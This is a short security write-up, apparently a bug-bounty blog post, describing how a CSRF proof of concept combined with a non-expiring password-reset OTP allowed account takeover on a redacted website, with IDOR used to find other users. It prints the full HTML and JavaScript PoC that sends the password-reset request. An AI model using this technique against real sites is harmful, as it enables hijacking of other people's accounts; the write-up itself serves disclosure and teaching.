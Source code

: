 ```yaml
---
title: "Exploiting CSRF and OTP Reuse: How Weak Token Management Enables Password Reset Attacks, Leading…"
datePublished: Thu Nov 28 2024 18:38:31 GMT+0000 (Coordinated Universal Time)
cuid: cm8slnmcl001k09jo46ic40px
slug: exploiting-csrf-and-otp-reuse-how-weak-token-management-enables-password-reset-attacks-leading-to-c2f6b914f398

---
```


Hello guy! I’m iPsalmy. It’s been a while I wrote anything here.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155290085/d323921f-4d60-4437-8c23-af12794cbd58.gif)

Anyway, with no waste of time let’s talk about how I used a simple CSRF attack to exploit a weak token management which led to me taking over users account.

I tend to test on password password reset mechanisms and IDOR more these days. So, while checking out the functionality on this website, let’s call it (redacted.com). I intercepted the forgot password request in Caido (web proxy), forwarded the request inorder to receive the token(OTP) in my mail.

With the token, I created a CSRF POC for this request.

<!DOCTYPE html>  
<html>  
<head>  
    <title>CSRF PoC for Password Reset</title>  
</head>  
<body>  
    <h1>CSRF PoC for Password Reset</h1>  
  
    <script>  
        // This JavaScript will create and send the PUT request with the JSON payload  
        fetch("https://redacted.com/v1/user/set-new-password/", {  
            method: "PUT",  
            headers: {  
                "Content-Type": "application/json"  
            },  
            body: JSON.stringify({  
                "email": "ipsalmy+40@gmail.com",  
                "otp\_code": "954195",  
                "password": "Weakpass2"  
            })  
        });  
    </script>  
</body>  
</html>  
  

Entered a password of my choice in the CSRF POC, saved this POC as .html file and launched it on my browser.

I went back to the login page of redacted.com and I tried to login with my previous password but couldn’t. Meaning…..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155291808/d0f22ae4-e47c-4da4-a34d-493c0a3a4d1e.gif)

The CSRF worked! I got logged out of my account.

Now, to the most fun part. The token sent to to user’s mail wasn’t expiring even after use, meaning I was able to change users password thousands of times with the same token. Since it was provided by the website’s reset password API endpoint, it remained valid.

This happened only when used with a CSRF exploitation. If the Token is manually inputted, the API properly validates this token and made it expire after usage.

I was also able to perform this attack on other users I found through IDOR.

Thanks for reading : )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155294068/061e142e-0f91-45ef-a5db-fdd93320282a.gif)